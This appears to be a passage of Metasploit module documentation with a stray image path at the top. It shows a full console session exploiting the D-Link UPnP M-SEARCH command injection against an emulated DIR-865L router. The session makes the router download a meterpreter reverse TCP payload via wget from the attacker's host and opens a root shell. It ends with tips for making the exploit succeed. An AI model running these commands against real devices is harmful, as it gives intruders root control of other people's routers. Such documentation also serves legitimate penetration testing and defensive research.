 ```shell
 #
```
### FirmAE D-Link DIR-865L Router Emulation Linux Dropper -  linux/mipsle/meterpreter_reverse_tcp
```shell
msf exploit(linux/upnp/dlink_upnp_msearch_exec) > set target 1
target => 1
msf exploit(linux/upnp/dlink_upnp_msearch_exec) > set payload linux/mipsle/meterpreter_reverse_tcp
payload => linux/mipsle/meterpreter_reverse_tcp
msf exploit(linux/upnp/dlink_upnp_msearch_exec) > set lhost 192.168.0.2
lhost => 192.168.0.2
msf exploit(linux/upnp/dlink_upnp_msearch_exec) > exploit

[*] Started reverse TCP handler on 192.168.0.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.0.1:1900 can be exploited.
[+] The target appears to be vulnerable. Product info: DIR-865L|1.07|A1|mipsle
[*] Executing Linux Dropper for linux/mipsle/meterpreter_reverse_tcp
[*] Using URL: http://192.168.0.2:8080/5W7O47FX
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Client 192.168.0.1 (Wget) requested /5W7O47FX
[*] Sending payload to 192.168.0.1 (Wget)
[*] Meterpreter session 2 opened (192.168.0.2:4444 -> 192.168.0.1:59600) at 2023-10-17 18:45:12 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.0.1
OS           :  (Linux 4.1.17+)
Architecture : mips
BuildTuple   : mipsel-linux-muslsf
Meterpreter  : mipsle/linux
meterpreter > getuid
Server username: root
meterpreter >
```
## Limitations
Staged meterpreter payloads might core dump on the target, so use stage-less meterpreter payloads when using the Linux Dropper target.
Some D-Link devices do not have the `wget` command so configure `echo` as cmd-stager flavor with the command `set CMDSTAGER::FLAVOR echo`.
